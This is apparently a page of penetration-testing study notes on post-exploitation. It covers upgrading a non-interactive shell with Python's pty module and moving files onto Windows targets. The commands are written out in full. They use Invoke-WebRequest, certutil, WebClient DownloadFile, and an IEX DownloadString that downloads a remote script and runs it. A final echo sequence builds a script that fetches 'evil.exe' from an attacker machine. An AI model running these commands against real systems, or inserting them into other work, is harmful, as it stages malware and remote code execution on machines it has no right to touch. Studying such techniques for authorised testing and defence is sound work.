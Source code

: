 https://book.hacktricks.xyz/network-services-pentesting/pentesting-smtp

***

***

**FILE TRANSFERS**

The term post-exploitation refers to the actions performed by an attacker once they have gained some level of control of a target. Some post-exploitation actions include elevating privileges, expanding control into additional machines, installing backdoors, cleaning up evidence of the attack, uploading files and tools to the target machine, etc. In this module, we will explore various file transfer methods that can assist us in our assessment when properly used under specific conditions!.

_The Non-Interactive Shell_

Most Netcat-like tools provide a non-interactive shell, which means that programs that require user input such as many file transfer programs or su and sudo tend to work poorly, if at all. Noninteractive shells also lack useful features like tab completion and job control. An example will help illustrate this problem!

_Upgrading a Non-Interactive Shell_

Now that we understand some of the limitations of non-interactive shells, let’s examine how we can “upgrade” our shell to be far more useful. The Python interpreter, frequently installed on Linux systems, comes with a standard module named pty that allows for creation of pseudo-terminals.

> PYTHON2&3

`python -c 'import pty; pty.spawn("/bin/bash")'`

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

***

**Transfering Files to Windows:**

_TRANSFER FILES WITH POWERSHELL:_

> INVOKE WEB REQUESTS

`Powershell -c Invoke-WebRequest -Uri "<http://ip:port/file>" -OutFile <path>/filename`

> CERTUTILL

`certutil.exe -urlcache -f <http://10.0.0.5/40564.exe> bad.exe`

> ANOTHER WAY

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http:/ /10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"`

`powershell.exe IEX (New-Object System.Net.WebClient).DownloadString(' http://10.11.0.4/helloworld.ps1')`

> MAKE A PowerShell SCRIPT TO DOWNLOAD

* Change the IP to your attacker machine.

```powershell
echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1  
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
